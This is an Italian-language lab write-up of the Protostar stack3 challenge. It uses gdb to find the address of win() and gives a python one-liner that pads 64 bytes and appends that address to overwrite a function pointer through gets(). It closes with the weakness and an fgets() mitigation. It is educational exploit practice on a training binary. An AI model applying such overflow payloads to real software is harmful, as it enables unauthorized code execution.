 # Protostar_stack 3 - Stack-based buffer overflow

## Obiettivo della sfida
Impostare `fp = win` a tempo di esecuzione, questo implica la modifica del flusso di esecuzione per provocare il salto del codice alla funzione win().

## Raccolta informazioni
Il programma accetta solo input da tastiera o da un altro processo. Stack3 è simile alle precedenti ma la difficoltà aggiunta sta nel fatto che non sappiamo il numero da iniettare per fare eseguire _win()_ quindi bisogna trovarlo.

## Strategia di attacco
Utilizzare il debugger **gdb** e **objdump** per ottenere informazioni sul file.  
Il nostro obiettivo è recuperare l'indirizzo di win() a partire dal binario di _stack3_, una volta trovato l'indizzo lo mettiamo alla fine della stringa di 64 byte(ricordarsi sempre dell'architettura little endian).
### Recuperare l'indirizzo di win()
Utilizziamo gdb
```bash
> gdb -q /opt/protostar/bin/stack3
(gdb) > p win
$1 = {void(void)} 0x8048424 <win> 
#0x8048424 indirizzo di win
```
### Istruzioni da eseguire
```bash
> python -c 'print "a" * 64 + "\x24\x84\x04\x08"' | /opt/protostart/bin/stack3
# sfida vinta
```
## Debolezze
1. `gets()` non effettua controlli sul buffer overflow

## Mitigazione
1. sostituire la funzione`gets()` con `fgets()`
